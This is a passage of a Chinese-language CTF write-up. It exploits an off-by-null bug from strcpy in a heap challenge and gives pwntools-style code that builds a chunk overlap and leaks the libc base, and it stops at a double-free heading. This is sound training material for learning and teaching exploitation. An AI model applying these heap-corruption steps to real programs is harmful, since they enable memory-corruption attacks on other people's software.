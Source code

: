 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-070331.png)

创建`Chunk`时，使用了`strcpy`函数，而这个函数会在将字符串转移后在末尾添加一个`x00`，因此此处存在一个`off-by-null`漏洞。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

#### 构造`Heap Overlap`

首先，这个题目中可以发现允许申请大小超过`0x400`的`chunk`，那么我们申请的大块就可以免受`Tcache`的影响，那么我们首先申请三个`chunk`用于攻击：

```
creat(sh,0x480,'Chunk_0')
creat(sh,0x78 ,'Chunk_1')
creat(sh,0x4F0,'Chunk_2')
creat(sh,0x20 ,'Chunk_3') # 用于防止最后一个Chunk被Top Chunk吞并
```

依次释放掉`chunk 0`和`chunk 1`，然后我们理论上就应该取回`chunk 1`来触发`Off-by-null`了，但是，需要注意的是，此处的释放函数有`memset(note_list[idx], 0xDA, size_list[idx]);`，也就是说`xDA`将充斥整个数据空间，这会影响到我们后续的布置。

因此，我们先利用以下代码来清理`chunk 2`的`prev_size`域：

```
for i in range(9):
    creat(sh, 0x78 - i, 'A' * (0x78 - i))
    delete(sh,0)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-074353.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-074544.png)

清理完之后，取回`chunk 1`并触发`Off-by-Null`：

```
creat(sh,0x78,'B' * 0x70 + p64(0x480 + 0x10 + 0x70 + 0x10))
```

释放`Chunk 2`，`Heap Overlap`构造成功。

#### <a class="reference-link" name="Leak%20Libc"></a>Leak Libc

解下来申请一个和原来的`Chunk 0`大小相同的`Chunk`，`main_arena`的地址将会被推到`Chunk 1`的数据域，于是可以得到`libc`基址。

```
libc.address=get_address(sh=sh,info='LIBC ADDRESS --&gt; ',
                         start_string='',end_string='n',
                         offset=0x00007f77c161e000-0x7f77c1a09ca0)
```

#### <a class="reference-link" name="Double%20Free"></a>Double Free
